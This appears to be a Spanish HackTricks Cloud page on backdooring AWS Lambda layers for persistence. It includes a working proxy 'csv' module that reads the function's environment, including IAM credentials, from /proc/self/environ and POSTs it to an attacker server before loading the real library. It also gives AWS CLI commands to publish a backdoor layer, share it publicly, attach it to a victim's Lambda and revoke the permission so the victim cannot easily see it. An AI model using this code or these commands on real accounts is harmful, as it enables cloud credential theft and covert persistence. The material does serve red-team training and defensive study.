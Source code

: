 # AWS - Persistencia de Capas de Lambda

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Capas de Lambda

Una capa de Lambda es un archivo .zip que **puede contener código adicional** u otro contenido. Una capa puede contener bibliotecas, un [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), datos o archivos de configuración.

Es posible incluir hasta **cinco capas por función**. Cuando incluyes una capa en una función, el **contenido se extrae en el directorio `/opt`** en el entorno de ejecución.

Por **defecto**, las **capas** que creas son **privadas** para tu cuenta de AWS. Puedes elegir **compartir** una capa con otras cuentas o **hacer** que la capa sea **pública**. Si tus funciones consumen una capa que publicó otra cuenta, tus funciones pueden **seguir utilizando la versión de la capa después de que haya sido eliminada, o después de que se revoque tu permiso para acceder a la capa**. Sin embargo, no puedes crear una nueva función o actualizar funciones utilizando una versión de capa eliminada.

Las funciones desplegadas como una imagen de contenedor no utilizan capas. En su lugar, empaquetas tu runtime preferido, bibliotecas y otras dependencias en la imagen del contenedor cuando construyes la imagen.

### Ruta de carga de Python

La ruta de carga que Python utilizará en lambda es la siguiente:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifica cómo las **segundas** y **terceras** **posiciones** son ocupadas por directorios donde **lambda layers** descomprimen sus archivos: **`/opt/python/lib/python3.9/site-packages`** y **`/opt/python`**

{% hint style="danger" %}
Si un atacante logra **backdoor** una **layer** de lambda utilizada o **agregar una** que estará **ejecutando código arbitrario cuando se cargue una biblioteca común**, podrá ejecutar código malicioso con cada invocación de lambda.
{% endhint %}

Por lo tanto, los requisitos son:

* **Verificar bibliotecas** que son **cargadas** por el código de las víctimas
* Crear una **biblioteca proxy con lambda layers** que **ejecutará código personalizado** y **cargará la biblioteca original**.

### Bibliotecas precargadas

{% hint style="warning" %}
Al abusar de esta técnica encontré una dificultad: Algunas bibliotecas ya están **cargadas** en el tiempo de ejecución de python cuando se ejecuta tu código. Esperaba encontrar cosas como `os` o `sys`, pero **incluso la biblioteca `json` estaba cargada**.\
Para abusar de esta técnica de persistencia, el código necesita **cargar una nueva biblioteca que no esté cargada** cuando se ejecuta el código.
{% endhint %}

Con un código en python como este es posible obtener la **lista de bibliotecas que están precargadas** dentro del tiempo de ejecución de python en lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Y esta es la **lista** (verifica que bibliotecas como `os` o `json` ya estén allí)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Y esta es la lista de **bibliotecas** que **lambda incluye instaladas por defecto**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Puerta trasera en la capa de Lambda

En este ejemplo supongamos que el código objetivo está importando **`csv`**. Vamos a **poner una puerta trasera en la importación de la biblioteca `csv`**.

Para hacer eso, vamos a **crear el directorio csv** con el archivo **`__init__.py`** en él en una ruta que es cargada por lambda: **`/opt/python/lib/python3.9/site-packages`**\
Luego, cuando la lambda se ejecute e intente cargar **csv**, nuestro **archivo `__init__.py` será cargado y ejecutado**.\
Este archivo debe:

* Ejecutar nuestra carga útil
* Cargar la biblioteca csv original

Podemos hacer ambas cosas con:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Luego, crea un zip con este código en la ruta **`python/lib/python3.9/site-packages/__init__.py`** y agrégalo como una capa lambda.

Puedes encontrar este código en [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

La carga útil integrada **enviará las credenciales de IAM a un servidor LA PRIMERA VEZ que se invoque o DESPUÉS de un reinicio del contenedor lambda** (cambio de código o lambda fría), pero **otras técnicas** como las siguientes también podrían integrarse:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Capas Externas

Ten en cuenta que es posible usar **capas lambda de cuentas externas**. Además, una lambda puede usar una capa de una cuenta externa incluso si no tiene permisos.\
También ten en cuenta que el **número máximo de capas que una lambda puede tener es 5**.

Por lo tanto, para mejorar la versatilidad de esta técnica, un atacante podría:

* Inyectar un backdoor en una capa existente del usuario (nada es externo)
* **Crear** una **capa** en **su cuenta**, dar acceso a la **cuenta de la víctima** para usar la capa, **configurar** la **capa** en la Lambda de la víctima y **eliminar el permiso**.
* La **Lambda** aún podrá **usar la capa** y la **víctima no** tendrá ninguna forma fácil de **descargar el código de las capas** (aparte de obtener un rev shell dentro de la lambda)
* La víctima **no verá capas externas** utilizadas con **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

